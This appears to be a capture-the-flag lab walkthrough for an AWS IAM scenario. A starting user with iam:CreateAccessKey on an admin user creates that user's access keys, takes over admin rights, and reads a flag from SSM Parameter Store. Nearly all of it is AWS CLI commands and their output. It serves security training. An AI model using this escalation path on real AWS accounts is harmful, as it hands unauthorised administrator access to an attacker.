

## Terraform outputs

```jsx
plabs output iam-002-to-admin
{
  "admin_user_arn": "arn:aws:iam::111111111111:user/pl-prod-iam-002-to-admin-target-user",
  "admin_user_name": "pl-prod-iam-002-to-admin-target-user",
  "attack_path": "User (pl-prod-iam-002-to-admin-starting-user) → iam:CreateAccessKey → User (pl-prod-iam-002-to-admin-target-user) → Admin Access → ssm:GetParameter → CTF flag",
  "flag_ssm_parameter_arn": "arn:aws:ssm:us-east-1:111111111111:parameter/pathfinding-labs/flags/iam-002-to-admin",
  "flag_ssm_parameter_name": "/pathfinding-labs/flags/iam-002-to-admin",
  "starting_user_access_key_id": << REDACTED >>,
  "starting_user_arn": "arn:aws:iam::111111111111:user/pl-prod-iam-002-to-admin-starting-user",
  "starting_user_name": "pl-prod-iam-002-to-admin-starting-user",
  "starting_user_secret_access_key": << REDACTED >>
}
```

```jsx
# AWS Configure
aws configure --profile starting-user
AWS Access Key ID [****************YNCL]: << snip >>
AWS Secret Access Key [****************44D7]: << snip >>
Default region name [us-east-1]: us-east-1
Default output format [json]: json

# WHOAMI
aws sts get-caller-identity --profile starting-user | jq
{
  "UserId": "AIDAVRUVSVUFAB4P64X24",
  "Account": "111111111111",
  "Arn": "arn:aws:iam::111111111111:user/pl-prod-iam-002-to-admin-starting-user"
}
```

### List all Users

```jsx
 aws iam list-users --profile starting-user | jq
{
  "Users": [
    {
      "Path": "/",
      "UserName": "pl-admin-user-for-cleanup-scripts",
      "UserId": "AIDAVRUVSVUFDKRVLVCCP",
      "Arn": "arn:aws:iam::111111111111:user/pl-admin-user-for-cleanup-scripts",
      "CreateDate": "2026-05-24T16:08:12+00:00"
    },
    {
      "Path": "/",
      "UserName": "pl-prod-iam-002-to-admin-starting-user",
      "UserId": "AIDAVRUVSVUFAB4P64X24",
      "Arn": "arn:aws:iam::111111111111:user/pl-prod-iam-002-to-admin-starting-user",
      "CreateDate": "2026-05-24T17:43:45+00:00"
    },
    {
      "Path": "/",
      "UserName": "pl-prod-iam-002-to-admin-target-user",
      "UserId": "AIDAVRUVSVUFJMV32T2J6",
      "Arn": "arn:aws:iam::111111111111:user/pl-prod-iam-002-to-admin-target-user",
      "CreateDate": "2026-05-24T17:43:45+00:00"
    },
    {
      "Path": "/",
      "UserName": "pl-readonly-user-prod",
      "UserId": "AIDAVRUVSVUFKMPKW7QWK",
      "Arn": "arn:aws:iam::111111111111:user/pl-readonly-user-prod",
      "CreateDate": "2026-05-24T16:08:12+00:00"
    }
  ]
}
```

### Target user is an Admin

```jsx
aws iam list-attached-user-policies --user-name pl-prod-iam-002-to-admin-target-user --profile starting-user | jq
{
  "AttachedPolicies": [
    {
      "PolicyName": "AdministratorAccess",
      "PolicyArn": "arn:aws:iam::aws:policy/AdministratorAccess"
    }
  ]
}
```

The starting-user does have this attached user policy

```jsx
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Action": [
                "iam:CreateAccessKey"
            ],
            "Effect": "Allow",
            "Resource": "arn:aws:iam::111111111111:user/pl-prod-iam-002-to-admin-target-user",
            "Sid": "RequiredForExploitationCreateAccessKey"
        },
        {
            "Action": [
                "sts:GetCallerIdentity",
                "iam:ListUsers",
                "iam:GetUser",
                "iam:ListAttachedUserPolicies"
            ],
            "Effect": "Allow",
            "Resource": "*",
            "Sid": "HelpfulForExploitation"
        }
    ]
}
```

### Create Keys for Target User

```jsx
 aws iam create-access-key --user-name pl-prod-iam-002-to-admin-target-user --profile starting-user | jq
{
  "AccessKey": {
    "UserName": "pl-prod-iam-002-to-admin-target-user",
    "AccessKeyId": "<< snip >>",
    "Status": "Active",
    "SecretAccessKey": "<< snip >>",
    "CreateDate": "2026-05-25T01:54:13+00:00"
  }
}
```

Add to PATH and verify setup

```jsx
aws configure --profile target-user

Tip: You can deliver temporary credentials to the AWS CLI using your AWS Console session by running the command 'aws login'.

AWS Access Key ID [None]: << snip >>
AWS Secret Access Key [None]: << snip >>
Default region name [None]: us-east-1
Default output format [None]: json

# Whomai
aws sts get-caller-identity --profile target-user | jq
{
  "UserId": "AIDAVRUVSVUFJMV32T2J6",
  "Account": "111111111111",
  "Arn": "arn:aws:iam::111111111111:user/pl-prod-iam-002-to-admin-target-user"
}
```

## Flag

```jsx
aws ssm describe-parameters --profile target-user | jq
{
  "Parameters": [
    {
      "Name": "/pathfinding-labs/flags/iam-002-to-admin",
      "ARN": "arn:aws:ssm:us-east-1:111111111111:parameter/pathfinding-labs/flags/iam-002-to-admin",
      "Type": "String",
      "LastModifiedDate": "2026-05-24T13:43:45.398000-04:00",
      "LastModifiedUser": "arn:aws:iam::111111111111:user/pathfinder-prod",
      "Description": "CTF flag for the iam-002 to-admin scenario",
      "Version": 1,
      "Tier": "Standard",
      "Policies": [],
      "DataType": "text"
    }
  ]
}

# FLAG
aws ssm get-parameter --name "/pathfinding-labs/flags/iam-002-to-admin" --profile target-user | jq
{
  "Parameter": {
    "Name": "/pathfinding-labs/flags/iam-002-to-admin",
    "Type": "String",
    "Value": "flag{iam_002_admin_key_created}",
    "Version": 1,
    "LastModifiedDate": "2026-05-24T13:43:45.398000-04:00",
    "ARN": "arn:aws:ssm:us-east-1:111111111111:parameter/pathfinding-labs/flags/iam-002-to-admin",
    "DataType": "text"
  }
}
```